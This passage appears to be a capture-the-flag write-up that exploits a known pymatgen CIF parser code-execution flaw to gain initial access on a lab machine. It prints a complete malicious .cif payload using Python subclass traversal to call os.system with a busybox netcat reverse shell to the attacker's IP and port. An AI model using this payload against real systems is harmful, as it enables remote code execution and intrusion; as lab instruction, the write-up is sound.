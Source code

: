 They provide us an example .cif file to download. Let's take a look at it:

![[Pasted image 20241229111723.png]]

I know that the webserver is running on python, so the cif parser is most likely written in python as well. I quickly search online for "python CIF processor RCE POC" and immediately get multiple results about a library "pymatgen" that has a critical RCE vulnerability:

![[Pasted image 20241229130235.png]]

Github usually has reliable POC scripts so I click on the [first result](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f) and examine the nature of the exploit. 
<br>
<br>
# **Exploitation**
## **Initial Access**
The post explains that the vulnerability arises from python's use of the `eval()` function "even with \_\_builtins\_\_ set to None". An attacker can use subclass traversal and access the `BuiltinImporter` class, allowing them to import any module they want. On top of that, since there is no input sanitization, an attacker can execute python code with the privileges of the user running the server. 

The author then provides a malicious .cif file with the subclass traversal payload. It accesses the `BuiltinImporter` class, loads the `os` module, and calls the `system()` function, allowing the execution of system level commands. Right now it just creates a file named "pwned", but we can insert a reverse shell one liner like `busybox nc 10.10.14.10 9001 -e sh` while having a listener set up to obtain a shell. I created a file "payload.cif", pasted the exploit from github, and inserted the command. Here's what it looks like:

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.14.10 9001 -e sh");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

![[Pasted image 20241229140845.png]]

After I clicked on view, my listener caught the request and I'm now logged in as **app**. 
![[Pasted image 20241229141002.png]]
